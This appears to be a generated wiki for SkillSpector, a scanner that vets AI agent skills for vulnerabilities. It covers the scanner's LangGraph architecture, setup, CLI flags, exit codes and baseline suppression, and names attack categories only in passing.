# Page: SkillSpector Overview

# SkillSpector Overview

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [CHANGELOG.md](CHANGELOG.md)
- [README.md](README.md)
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md)
- [docs/release/skillspector-2.11.0.md](docs/release/skillspector-2.11.0.md)
- [docs/release/skillspector-2.11.1.md](docs/release/skillspector-2.11.1.md)
- [docs/release/skillspector-2.9.4.md](docs/release/skillspector-2.9.4.md)
- [pyproject.toml](pyproject.toml)
- [src/skillspector/graph.py](src/skillspector/graph.py)
- [tests/integration/test_graph_scanner.py](tests/integration/test_graph_scanner.py)
- [uv.lock](uv.lock)

</details>


SkillSpector is a security scanner designed specifically for AI agent skills [README.md:1-3](). As AI agents (such as Claude Code, Codex CLI, or Gemini CLI) execute with implicit trust and minimal vetting [README.md:11](), SkillSpector provides a critical vetting layer to detect vulnerabilities, malicious intent, and security risks before installation [README.md:3](). It is part of the NVIDIA Verified Skills pipeline, scanning, evaluating, and signing agent skills before publication [README.md:15]().

The system identifies **71 vulnerability patterns** across 17 categories, ranging from prompt injection and data exfiltration to complex Model Context Protocol (MCP) privilege mismatches [README.md:27]().

## Key Capabilities

SkillSpector provides a multi-stage analysis pipeline that combines high-speed static analysis with deep semantic evaluation:

*   **Multi-format Input Resolution**: Supports scanning local directories, single `SKILL.md` files, Git repositories, and ZIP archives [README.md:26]().
*   **Hybrid Analysis Engine**: Executes fast pattern-matching (Regex, AST, YARA) alongside optional LLM-powered semantic analysis for developer intent and complex security discovery [README.md:28]().
*   **Live Vulnerability Intelligence**: Performs real-time dependency lookups against [OSV.dev](https://osv.dev) to identify known CVEs in skill dependencies (Rule SC4) [README.md:29]().
*   **Standardized Reporting**: Generates reports in Terminal (pretty-print), JSON, Markdown, and SARIF 2.1.0 formats for CI/CD integration [README.md:30]().
*   **Risk Scoring**: Computes a 0-100 risk score based on finding severity and category to provide clear recommendations [README.md:31]().
*   **Baseline and Suppression**: Allows users to "baseline" known findings via glob-rules or fingerprints to surface only new issues in subsequent scans [README.md:32]().
*   **MCP Integration**: Can be deployed as a Model Context Protocol (MCP) server or a Pi coding-agent extension [README.md:21-22](), [docs/DEVELOPMENT.md:47-51]().

**Sources:** [README.md:1-33](), [docs/DEVELOPMENT.md:47-51]()

## System Architecture

The core of SkillSpector is built on a **LangGraph** pipeline (`StateGraph`), which orchestrates the flow of data from input resolution to final report generation [docs/DEVELOPMENT.md:9-10](). The architecture bridges the gap between raw file contents and structured security findings.

### Code-to-Logic Mapping

The following diagram illustrates how the logical scanning phases map to specific code entities and subsystems, bridging Natural Language Space to Code Entity Space.

**Pipeline Component Mapping**
```mermaid
graph TD
    subgraph "Natural Language Space"
        A["CLI Entry Point"] --> B["Python Script Entry"]
        C["LangGraph Workflow"] --> D["Analyzer Nodes"]
    end

    subgraph "Code Entity Space"
        B1["skillspector.cli:app"] -- "invokes" --> C1["skillspector.graph:create_graph"]
        C1 -- "uses state" --> D1["skillspector.state:SkillspectorState"]
        D1 --> E1["skillspector.nodes.resolve_input:resolve_input"]
        E1 --> F1["skillspector.nodes.build_context:build_context"]
        F1 --> G1["skillspector.nodes.analyzers:ANALYZER_NODES"]
        G1 --> H1["skillspector.nodes.meta_analyzer:meta_analyzer"]
        H1 --> I1["skillspector.nodes.finalize_inspection_ledger:finalize_inspection_ledger"]
        I1 --> J1["skillspector.nodes.report:report"]
    end
```
**Sources:** [src/skillspector/graph.py:40-88](), [src/skillspector/state.py:1-40](), [docs/DEVELOPMENT.md:72-123]()

## Subsystems and Relationships

SkillSpector is organized into several distinct subsystems that interact through a shared state object defined in `SkillspectorState` [docs/DEVELOPMENT.md:72-100]().

| Subsystem | Primary Responsibility | Key Code Entities |
| :--- | :--- | :--- |
| **Orchestration** | Manages the LangGraph `StateGraph` and node execution order. | `langgraph.graph.StateGraph`, `src/skillspector/graph.py:create_graph()` [src/skillspector/graph.py:40-88]() |
| **Analyzers** | Contains the logic for identifying risks (Static, Semantic, Behavioral). | `AnalyzerPlugin`, `src/skillspector/nodes/analyzers/`, `ANALYZER_NODE_IDS` [src/skillspector/graph.py:29-35]() |
| **Providers** | Abstraction layer for LLM interactions (OpenAI, Anthropic, NVIDIA Build). | `ModelMetadataProvider`, `CredentialsProvider`, `src/skillspector/llm_utils.py` [docs/DEVELOPMENT.md:37-41]() |
| **Data Models** | Defines the `Finding`, `Location`, and `SARIF` schemas. | `Finding`, `AnalyzerFinding`, `SarifReport`, `src/skillspector/models.py` [docs/DEVELOPMENT.md:72-100]() |
| **CLI** | Handles user input, flags, and terminal output formatting. | `typer.Typer`, `skillspector.cli:app`, `src/skillspector/cli.py` [pyproject.toml:34-35](), [pyproject.toml:74-75]() |

### Functional Flow

The system transforms raw source code into a security report through the following flow:

**Data Flow: Source to Finding**

**Sources:** [README.md:131-143](), [docs/DEVELOPMENT.md:17-18](), [src/skillspector/graph.py:40-88]()

## Detailed Documentation and Child Pages

For more in-depth information on specific components, refer to the following child pages:

*   **[Getting Started](#1.1)** — Installation, environment setup (`.env`, provider selection), running the CLI, Makefile targets, Docker image, and launching the LangGraph dev server. For details, see [Getting Started](#1.1).
*   **[CLI Reference](#1.2)** — Complete reference for the `skillspector` CLI: `scan` (all flags including `--format`, `--output`, `--no-llm`, `--recursive`, `--transitive`, `--baseline`, `--use-shipped-baseline`, `--fail-on-incomplete`, `--show-suppressed`), `baseline`, and `mcp` subcommands, exit codes, and stream separation rules. For details, see [CLI Reference](#1.2).
*   **[Baseline and Suppression](#1.3)** — How baseline/false-positive suppression works: generating baselines, YAML/JSON format (rules vs fingerprints), glob and fingerprint suppression, author-shipped baselines, and SARIF suppression preservation. For details, see [Baseline and Suppression](#1.3).
*   **[Release History and Versioning](#1.4)** — How releases are cut and documented: `CHANGELOG.md`, `docs/release/*` notes, the release GitHub Actions workflow and `scripts/release` tooling, and notable feature evolution across 2.x versions. For details, see [Release History and Versioning](#1.4).

**Sources:** [README.md:17-23](), [pyproject.toml:32-75](), [docs/DEVELOPMENT.md:11-15]()

---

# Page: Getting Started

# Getting Started

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.env.example](.env.example)
- [.gitignore](.gitignore)
- [CHANGELOG.md](CHANGELOG.md)
- [Makefile](Makefile)
- [README.md](README.md)
- [docs/B.3.2-mcp-tool-poisoning.md](docs/B.3.2-mcp-tool-poisoning.md)
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md)
- [docs/SC4-osv-live-vulnerability-lookups.md](docs/SC4-osv-live-vulnerability-lookups.md)
- [docs/release/skillspector-2.11.0.md](docs/release/skillspector-2.11.0.md)
- [docs/release/skillspector-2.11.1.md](docs/release/skillspector-2.11.1.md)
- [pyproject.toml](pyproject.toml)
- [src/skillspector/providers/chat_models.py](src/skillspector/providers/chat_models.py)
- [tests/integration/__init__.py](tests/integration/__init__.py)
- [tests/unit/__init__.py](tests/unit/__init__.py)
- [uv.lock](uv.lock)

</details>


This guide provides step-by-step instructions for setting up the SkillSpector development environment, configuring LLM providers and operational boundaries, running the security analysis pipeline via the CLI or Docker container, and launching the LangGraph development server.

## Prerequisites and Core Dependencies

SkillSpector requires **Python 3.12 or higher** [README.md:5-5](), [pyproject.toml:11-11](). The project leverages `uv` for high-performance dependency management, though standard `pip` is supported as a fallback [Makefile:3-4]().

### Core Frameworks and Tools
*   **LangGraph**: Orchestrates the analysis workflow, node execution, and state propagation [docs/DEVELOPMENT.md:9-9](), [pyproject.toml:41-41]().
*   **YARA**: Executes malware and signature scanning via `yara-python` inside the `static_yara` node [README.md:27-27](), [pyproject.toml:49-50]().
*   **OSV.dev**: Performs live dependency vulnerability lookups for rule SC4 with an automated air-gapped fallback [README.md:27-27](), [CHANGELOG.md:29]().
*   **Docker**: Provides containerized execution without local Python installation requirements [README.md:73-76](), [Makefile:148-154]().

Sources: [README.md:5-33](), [pyproject.toml:11-51](), [docs/DEVELOPMENT.md:9-16]()

## Installation

SkillSpector can be installed via package managers or built from source within an active virtual environment.

### 1. Virtual Environment Setup
```bash
# Create the virtual environment using uv or python3
uv venv .venv
# or: python3 -m venv .venv

# Activate the virtual environment
source .venv/bin/activate   # Linux/macOS
# .venv\Scripts\activate    # Windows
```
Sources: [README.md:63-65](), [docs/DEVELOPMENT.md:25-30]()

### 2. Package Installation Options
*   **Quick CLI Tool Install (uv)**:
    ```bash
    uv tool install git+https://github.com/NVIDIA/skillspector.git
    # With MCP support:
    uv tool install 'skillspector[mcp] @ git+https://github.com/NVIDIA/skillspector.git'
    ```
    Sources: [README.md:42-53]()

*   **From Source via Makefile**:
    ```bash
    make install       # Production installation
    make install-dev   # Development installation with pytest, ruff, mypy
    ```
    Sources: [README.md:55-71](), [Makefile:49-53](), [pyproject.toml:53-72]()

Sources: [README.md:42-72](), [Makefile:49-53](), [pyproject.toml:53-72]()

## Environment Configuration

SkillSpector uses a `.env` file for LLM provider credentials, sampling parameters, and workflow timeout limits. Copy the example file to initialize your configuration:
```bash
cp .env.example .env
```
Sources: [.env.example:1-56](), [docs/DEVELOPMENT.md:36-36]()

### LLM Provider Selection
The `SKILLSPECTOR_PROVIDER` environment variable determines which provider backend answers metadata and chat completion requests [.env.example:3-6]().

| Provider | `SKILLSPECTOR_PROVIDER` | Required Credentials & Settings |
| :--- | :--- | :--- |
| **NVIDIA Build (Default)** | `nv_build` | `NVIDIA_INFERENCE_KEY` [.env.example:16-17]() |
| **OpenAI** | `openai` | `OPENAI_API_KEY` (+ optional `OPENAI_BASE_URL`) [.env.example:19-23]() |
| **Anthropic** | `anthropic` | `ANTHROPIC_API_KEY` [.env.example:36-37]() |
| **Anthropic Proxy** | `anthropic_proxy` | `ANTHROPIC_PROXY_ENDPOINT_URL` + `ANTHROPIC_PROXY_API_KEY` [.env.example:39-42]() |

Sources: [.env.example:1-45](), [docs/DEVELOPMENT.md:36-41](), [src/skillspector/providers/chat_models.py:82-108]()

### Operational Settings and Sampling Controls
*   **`SKILLSPECTOR_MAX_WORKFLOW_SECONDS`**: Aggregate workflow execution deadline. Defaults to `600` seconds (raised from 60s in v2.11.1) [.env.example:8-10](), [docs/release/skillspector-2.11.1.md:7]().
*   **`SKILLSPECTOR_LOG_LEVEL`**: Sets internal logging verbosity (`DEBUG`, `INFO`, `WARNING`, `ERROR`). Defaults to `WARNING` [.env.example:49](), [docs/DEVELOPMENT.md:44-48]().
*   **`SKILLSPECTOR_MODEL`**: Optional override for the provider's bundled default model [.env.example:47]().
*   **`SKILLSPECTOR_TEMPERATURE`**: Optional float between `0` and `1` for hosted providers [.env.example:33](), [src/skillspector/providers/chat_models.py:37-48]().
*   **`SKILLSPECTOR_SEED`**: Optional integer seed forwarded to OpenAI-compatible and Azure OpenAI endpoints [.env.example:34](), [src/skillspector/providers/chat_models.py:50-55]().
*   **`SKILLSPECTOR_REASONING_EFFORT`**: Optional reasoning-effort parameter for reasoning-capable models [.env.example:24-26](), [src/skillspector/providers/chat_models.py:31-34]().

Sources: [.env.example:1-56](), [src/skillspector/providers/chat_models.py:31-56](), [docs/release/skillspector-2.11.1.md:7-12]()

## Running SkillSpector

### Command Line Interface (CLI)
The `skillspector` command is registered via entry points to run scans [pyproject.toml:74-75]().

```bash
# Scan a local skill directory
skillspector scan ./my-skill/

# Scan a remote GitHub repository
skillspector scan https://github.com/user/my-skill

# Scan without LLM analysis (static, YARA, and behavioral only)
skillspector scan ./my-skill/ --no-llm

# Generate a false-positive suppression baseline
skillspector baseline ./my-skill/ -o .skillspector-baseline.yaml
```
Sources: [README.md:131-145](), [docs/DEVELOPMENT.md:13-13]()

### Docker Image
Build and run SkillSpector inside a container without a local Python setup [README.md:73-76]().

```bash
# Build the image
make docker-build
# or: docker build -t skillspector .

# Scan a local directory with volume mounting
docker run --rm -v "$PWD:/scan" skillspector scan ./my-skill/ --no-llm

# Scan with LLM credentials from an .env file
docker run --rm -v "$PWD:/scan" --env-file .env skillspector scan ./my-skill/
```
Sources: [README.md:77-104](), [Makefile:149-150]()

### Makefile Targets
All `Makefile` targets assume an active virtual environment [README.md:40-41](), [Makefile:29-31]().

| Target | Description |
| :--- | :--- |
| `make install` | Install package in production mode [Makefile:49-50]() |
| `make install-dev` | Install package with development tools [Makefile:52-53]() |
| `make langgraph-dev` | Start LangGraph dev server and open Studio [Makefile:55-57]() |
| `make test` | Run unit and integration test suites [Makefile:59-60]() |
| `make test-unit` | Run unit tests only (no LLM calls) [Makefile:63-64]() |
| `make test-integration` | Run full-graph integration tests [Makefile:97-98]() |
| `make lint` | Run ruff linter check [Makefile:109-111]() |
| `make format` | Format codebase with ruff [Makefile:119-122]() |
| `make docker-build` | Build the container image [Makefile:149-150]() |
| `make docker-smoke` | Build and execute Docker smoke tests [Makefile:153-154]() |

Sources: [Makefile:1-154]()

### LangGraph Dev Server
Launch the LangGraph development server to inspect the graph topology in **LangGraph Studio** [docs/DEVELOPMENT.md:14-14](), [Makefile:55-57]().
```bash
make langgraph-dev
```
Sources: [Makefile:55-58](), [docs/DEVELOPMENT.md:14-14]()

## Technical Architecture Overview

The following diagrams illustrate how CLI inputs and environment configurations map to internal code entities and graph states.

### Input Resolution Flow
This diagram bridges the natural language scan target to the `resolve_input` node and `SkillspectorState`.

```mermaid
graph TD
    subgraph "Natural Language Space"
        [LocalDir] ["Local Directory"]
        [GitRepo] ["Git Repository URL"]
        [ZipFile] ["ZIP Archive"]
    end

    subgraph "Code Entity Space"
        [CLIApp] ["skillspector.cli:app"] -- "invokes scan" --> [ResolveNode] ["resolve_input node"]
        [ResolveNode] -- "calls" --> [InputHandler] ["InputHandler"]
        [InputHandler] -- "populates" --> [StateDict] ["SkillspectorState"]
        
        subgraph "src/skillspector/state.py"
            [StateDict] --> [SkillPath] ["skill_path"]
            [StateDict] --> [TempDir] ["temp_dir_for_cleanup"]
            [StateDict] --> [FileCache] ["file_cache"]
        end
    end

    [LocalDir] & [GitRepo] & [ZipFile] --> [CLIApp]
    [InputHandler] -.-> [SkillPath]
    [InputHandler] -.-> [TempDir]
```
Sources: [docs/DEVELOPMENT.md:17-17](), [docs/DEVELOPMENT.md:74-83](), [pyproject.toml:74-75]()

### LLM Provider Integration
This diagram maps `.env` variables to provider classes and chat model factories.

```mermaid
graph LR
    subgraph "Natural Language Space"
        [EnvConfig] [".env Configuration"]
    end

    subgraph "Code Entity Space"
        [EnvConfig] -- "SKILLSPECTOR_PROVIDER" --> [Registry] ["skillspector.providers.registry"]
        [EnvConfig] -- "NVIDIA_INFERENCE_KEY" --> [NVBuild] ["NVBuildProvider"]
        [EnvConfig] -- "OPENAI_API_KEY" --> [OpenAIProv] ["OpenAIProvider"]
        
        [Registry] -- "selects" --> [ProviderClass] ["Provider Protocol"]
        
        subgraph "src/skillspector/providers/"
            [ProviderClass] -- "implements" --> [MetaProv] ["ModelMetadataProvider"]
            [ProviderClass] -- "implements" --> [CredProv] ["CredentialsProvider"]
            [MetaProv] -- "reads" --> [ModelYaml] ["model_registry.yaml"]
            [CredProv] -- "invokes" --> [ChatModels] ["chat_models.py:create_openai_compatible_chat_model"]
        end
    end
```
Sources: [.env.example:1-45](), [docs/DEVELOPMENT.md:36-41](), [src/skillspector/providers/chat_models.py:82-108]()

Sources for section: [README.md:1-173](), [pyproject.toml:1-122](), [Makefile:1-154](), [.env.example:1-56](), [docs/DEVELOPMENT.md:1-124](), [src/skillspector/providers/chat_models.py:31-108]()

---

# Page: CLI Reference

# CLI Reference

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [README.md](README.md)
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md)
- [src/skillspector/cli.py](src/skillspector/cli.py)
- [tests/unit/test_cli.py](tests/unit/test_cli.py)

</details>


The SkillSpector Command-Line Interface (CLI) serves as the primary operational entry point for interacting with the security scanner [src/skillspector/cli.py:16-20](). Implemented as a thin Typer-based wrapper [src/skillspector/cli.py:31-96](), it translates user-supplied flags and target identifiers into a structured LangGraph state, invokes the underlying analysis pipeline, and renders terminal, JSON, Markdown, or SARIF output while enforcing stream separation and precise exit codes.

## Overview and Command Structure

The CLI is rooted in the Typer application instance `app` defined in `src/skillspector/cli.py` [src/skillspector/cli.py:91-96](). It configures standard output streams to ensure robust UTF-8 handling across platforms [src/skillspector/cli.py:72-89]() and separates standard operational logging from user reports via dual Rich console instances (`console` for reports and `err_console` for logging/warnings) [src/skillspector/cli.py:98-99]().

### Data Flow: CLI to Graph State

The CLI maps command arguments into initial workflow inputs, orchestrating multi-skill detection or transitive traversal if requested before handing execution over to the compiled LangGraph workflow.

**CLI State Mapping Diagram**


Sources: [src/skillspector/cli.py:121-142](), [src/skillspector/cli.py:255-259](), [src/skillspector/graph.py:38-38]()

---

## The `scan` Subcommand

The `scan` subcommand runs the core inspection pipeline against a local directory, ZIP file, Git repository URL, or single file.

### Usage
```bash
skillspector scan [INPUT_PATH] [FLAGS]
```

### Supported Flags and Options

| Flag / Option | Short | Default | Description |
| :--- | :--- | :--- | :--- |
| `--format` | `-f` | `terminal` | Output format selection (`terminal`, `json`, `markdown`, `sarif`) [src/skillspector/cli.py:114-121]() |
| `--output` | `-o` | `None` | File path to write the generated report; prints to stdout if omitted [src/skillspector/cli.py:187-210]() |
| `--no-llm` | | `False` | Disables semantic analysis, relying purely on static patterns and YARA |
| `--yara-rules-dir` | | `None` | Directory containing custom `.yar` or `.yara` rule files |
| `--recursive` | `-r` | `False` | Scans immediate subdirectories containing a `SKILL.md` file as separate skills |
| `--transitive` | | `False` | Enables bounded traversal of external references found within the skill |
| `--baseline` | `-b` | `None` | Path to a YAML/JSON baseline file for suppressing known findings |
| `--use-shipped-baseline`| | `False` | Automatically discovers and applies any author-shipped baseline inside the skill |
| `--fail-on-incomplete` | | `False` | Exits with a non-zero code if the analysis ledger records incomplete coverage |
| `--show-suppressed` | | `False` | Includes baseline-suppressed findings in the rendered report output |
| `--verbose` | `-V` | `False` | Increases logging verbosity to `DEBUG` level |

Sources: [src/skillspector/cli.py:187-253]()

---

## The `baseline` Subcommand

The `baseline` command automates the generation of suppression files containing cryptographic fingerprints or glob rules for all current findings in a target skill.

### Usage
```bash
skillspector baseline [PATH] [OPTIONS]
```

| Option | Default | Description |
| :--- | :--- | :--- |
| `--output`, `-o` | `.skillspector-baseline.yaml` | Target file path to write the baseline rules |
| `--reason` | `None` | Default justification string embedded into generated suppression entries |

Sources: [src/skillspector/cli.py:318-345]()

---

## The `mcp` Subcommand

The `mcp` subcommand hosts SkillSpector as a Model Context Protocol server, enabling AI coding agents to execute security scans directly during their workflows.

### Usage
```bash
skillspector mcp [OPTIONS]
```

| Option | Default | Description |
| :--- | :--- | :--- |
| `--transport` | `stdio` | Transport protocol layer (`stdio` or `http`) [src/skillspector/cli.py:123-128]() |
| `--port` | `8000` | Port binding when using HTTP transport |

Sources: [src/skillspector/cli.py:364-385]()

---

## Stream Separation and I/O Rules

To ensure seamless integration into automated CI/CD pipelines and programmatic wrappers, SkillSpector strictly separates data output from diagnostics:

1. **Standard Output (`stdout`)**: Reserved exclusively for the generated report content (Terminal text, JSON, Markdown, or SARIF) when printing to the console.
2. **Standard Error (`stderr`)**: Handled by `err_console` [src/skillspector/cli.py:99-99](), dedicated to logging, progress indicators, warnings, and error messages.
3. **Stream Encoding**: `_ensure_utf8_streams()` automatically reconfigures `sys.stdout` and `sys.stderr` to use UTF-8 with character replacement (`errors="replace"`) on startup, preventing `UnicodeEncodeError` exceptions on restricted host platforms (e.g., Windows cp1252 consoles) when rendering Unicode boxes and symbols [src/skillspector/cli.py:72-89]().

**Stream Separation Architecture**


Sources: [src/skillspector/cli.py:72-99]()

---

## Exit Codes and Evaluation Logic

SkillSpector maps scan execution results and security thresholds to explicit process exit codes:

* **`0` (Success)**: The inspection completed successfully, and no unsuppressed findings met or exceeded the risk threshold (`RISK_THRESHOLD`) [src/skillspector/cli.py:41-41]().
* **`1` (Risk Threshold Exceeded)**: The scan finished successfully, but one or more active findings equal or exceed the `RISK_THRESHOLD`, indicating high/critical risk.
* **`2` (Execution / Configuration Error)**: An unhandled exception, resource ingest limit breach (`IngestLimitExceededError`), invalid path, or missing baseline occurred, or `--fail-on-incomplete` triggered due to incomplete ledger coverage.

Sources: [src/skillspector/cli.py:41-41](), [src/skillspector/cli.py:261-288]()

---

# Page: Baseline and Suppression

# Baseline and Suppression

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.skillspector-baseline.example.yaml](.skillspector-baseline.example.yaml)
- [docs/SUPPRESSION.md](docs/SUPPRESSION.md)
- [src/skillspector/nodes/report.py](src/skillspector/nodes/report.py)
- [src/skillspector/sarif_models.py](src/skillspector/sarif_models.py)
- [src/skillspector/suppression.py](src/skillspector/suppression.py)
- [tests/nodes/analyzers/test_sc8_shipped_bytecode.py](tests/nodes/analyzers/test_sc8_shipped_bytecode.py)
- [tests/nodes/test_report.py](tests/nodes/test_report.py)
- [tests/nodes/test_sarif_rules_and_empty_findings.py](tests/nodes/test_sarif_rules_and_empty_findings.py)
- [tests/unit/test_suppression.py](tests/unit/test_suppression.py)

</details>


The SkillSpector baseline system allows users to manage false positives and known security risks by suppressing findings. This system ensures that the risk score reflects only un-triaged issues and allows for incremental security scanning in CI/CD pipelines [docs/SUPPRESSION.md:3-10]().

### Overview of Suppression Logic

Suppression occurs at the final stage of the analysis pipeline. While analyzers generate findings regardless of previous states, the reporting engine filters these findings against a baseline before computing the final risk score and generating the report [docs/SUPPRESSION.md:128-136]().

There are two primary mechanisms for suppression:
1.  **Rules (Glob-based):** Human-authored, drift-tolerant patterns that match findings based on rule IDs, file paths, or message content [src/skillspector/suppression.py:21-27]().
2.  **Fingerprints (Hash-based):** Machine-generated, exact matches derived from a specific finding's unique attributes, including source content and scanner version [src/skillspector/suppression.py:29-31]().

---

## Suppression Data Flow

The following diagram illustrates how a baseline file moves from the CLI into the LangGraph state and influences the final report.

**Figure 1: Suppression Logic Data Flow**

Sources: [src/skillspector/cli.py:121-142](), [docs/SUPPRESSION.md:128-136](), [src/skillspector/suppression.py:265-275]()

---

## Baseline File Format

SkillSpector supports both YAML and JSON formats for baseline files. The format is determined by the file extension [docs/SUPPRESSION.md:48-50]().

### 1. Suppression Rules (`rules`)
Rules use glob matching (via `fnmatch`) and are "drift-tolerant," meaning they continue to work even if line numbers change or minor wording shifts occur [src/skillspector/suppression.py:50-54]().

| Field | Matches Against | Notes |
| :--- | :--- | :--- |
| `id` / `rule_id` | `Finding.rule_id` | Supports globs like `SQP-*` [src/skillspector/suppression.py:86]() |
| `path` / `file` | `Finding.file` | Supports `*` and `**` (as alias for `*`) [src/skillspector/suppression.py:87-90]() |
| `message` | `Finding.message` | Case-insensitive substring matching against description and evidence [src/skillspector/suppression.py:88]() |
| `reason` | N/A | **Required** for auditability [src/skillspector/suppression.py:169]() |

### 2. Fingerprints (`fingerprints`)
Version 2 fingerprints are 64-character SHA-256 hashes. They bind to the complete scanned component, scanner version, finding identity, severity, location, and emitted evidence [src/skillspector/suppression.py:118-124]().

**Fingerprint Calculation:**
A canonical JSON payload is constructed including `scanner_version`, `component.sha256`, and all finding fields (rule_id, severity, confidence, line numbers, matched_text, context, etc.) [src/skillspector/suppression.py:131-156](). The final hash is prefixed with `sha256:` [src/skillspector/suppression.py:159]().

Sources: [docs/SUPPRESSION.md:53-70](), [src/skillspector/suppression.py:112-160](), [.skillspector-baseline.example.yaml:10-38]()

---

## Implementation Details

The core logic resides in `src/skillspector/suppression.py`.

### Key Classes and Functions

*   **`Baseline` Class**: Holds the collection of `SuppressionRule` objects and a dictionary of fingerprints [src/skillspector/suppression.py:202-211]().
*   **`finding_fingerprint()`**: Generates the stable hash used for exact matching. It requires `file_content` and `scanner_version` to ensure integrity [src/skillspector/suppression.py:112-160]().
*   **`partition_findings()`**: The primary filter function. It splits a list of `Finding` objects into `kept` (not suppressed) and `suppressed` (paired with a reason) [src/skillspector/suppression.py:265-283]().
*   **`SuppressionRule.matches()`**: Evaluates if a specific finding satisfies all criteria defined in a glob rule [src/skillspector/suppression.py:171-182]().

**Figure 2: Suppression Logic Internal Entities**
